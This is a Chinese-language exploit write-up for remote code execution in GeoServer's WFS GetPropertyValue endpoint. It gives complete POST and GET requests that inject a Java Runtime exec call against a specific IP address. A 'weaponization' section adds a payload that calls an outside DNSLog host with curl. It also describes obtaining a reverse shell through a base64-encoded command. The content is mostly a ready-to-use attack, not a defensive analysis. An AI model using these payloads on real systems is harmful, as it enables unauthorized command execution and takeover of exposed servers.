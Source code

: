 # 0x01 漏洞复现
## POST
```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 356

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'touch /tmp/success2')</wfs:valueReference>
</wfs:GetPropertyValue>
```
![image](./images/01.png)

## GET
```
GET /geoserver/wfs?service=WFS&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'touch%20/tmp/success1') HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0


```
![image](./images/02.png)

## 结果
成功创建文件success1和success2  
![image](./images/03.png)  
值得注意的是，typeNames必须存在，我们可以在Web页面中找到当前服务器中的所有Types  


# 0x02 漏洞武器化
## POST
### DNSLog

需要注意ping pvip4zip.eyes.sh会报错，需要用curl pvip4zip.eyes.sh

```
POST /geoserver/wfs HTTP/1.1
Host: 39.98.250.47:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 358

<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'curl pvip4zip.eyes.sh')</wfs:valueReference>
</wfs:GetPropertyValue>
```
成功收到dnslog记录  
![image](./images/04.png)  

### 反弹Shell
直接插入反弹shell的命令会提示请求解析失败  
![image](./images/07.png)  

base64编码后，返回正常  
![image](./images/06.png)  

成功收到反弹shell  
![image](./images/05.png)  